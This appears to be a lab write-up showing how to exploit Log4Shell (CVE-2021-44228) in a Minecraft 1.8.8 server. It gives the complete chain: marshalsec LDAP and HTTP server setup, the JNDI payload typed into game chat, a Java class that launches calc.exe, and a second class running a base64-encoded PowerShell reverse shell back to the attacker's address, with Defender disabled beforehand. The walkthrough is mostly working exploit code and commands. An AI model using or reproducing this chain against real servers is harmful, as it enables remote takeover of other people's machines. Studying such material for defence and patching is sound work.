




Date: 26.10.2023

Author: ad1s0n

# **Log4J RCE in Minecraft - Log4Shell (CVE-2021-44228)**

In 2021 the security hole was found in Log4j library, which could lead to remote code execution. This vulnerability doesn't restrains to web apps only, every java app which used log4j were vulnerable - included popular game Minecraft.

### Testing infrastucture





* JDK Version: 1.8.0_181
* Minecraft Version: 1.8.8 ([Server link](https://mcversions.net/download/1.8.8), for client I used Crystal launcher)
* LDAP listener: [marshalsec](https://github.com/mbechler/marshalsec)


## Setting Up Infrastucture

### Installing minecraft server

After instaling JDK and downloading server, run below command to run server:

```bash
java -Xms2G -Xmx2G -jar .\server.jar --nogui
```
Accept EULA and run again above command.


### Setting up LDAP listener

```bash
git clone https://github.com/mbechler/marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.209:8000/#Log4jRCE"
```

### Setting up HTTP server

```bash
python3 -m http.server
```

## Trivial Proof-of-concept

I wrote some trivial exploit, which runs calc.exe on victim machine. 

```java
public class Log4jRCE {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("calc.exe");
       } catch (Exception e) {
           e.printStackTrace();
        }
    }
}
```

Of course instead of running calculator, I can try to launch reverse shell and take over the victim machine, but for sake of simplicity now I will launch only calculator.

Now compile it.

```
javac Log4jRCE.java
```

## Running exploit

1. Join game and enter the following payload:

```
${jndi:ldap://192.168.1.209:1389/Log4jRCE}
```

Now incoming connection should appear in LDAP server and then, in HTTP server. 





Right after that, calculator window pops up in windows machine - we got our RCE!





## Upgrading PoC - powershell encoded revshell

```java
public class Log4jRCE {

    static {
        try {
            java.lang.Runtime.getRuntime().exec("powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAyADAAOQAiACwAOQAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="); // PowerShell base64 encoded revshell
       } catch (Exception e) {
           e.printStackTrace();
        }
    }

}
```

Now in a result we got shell, which allows to execute any commands on victim machine. Of course before launching it I disabled Microsoft Defender, since that payload its only base64 encoded revshell it is trivial of Defender to detect it and block it - I didn't want to play with AV evasion, because it is not a subject of that article.





I hope you enjoyed it :) 
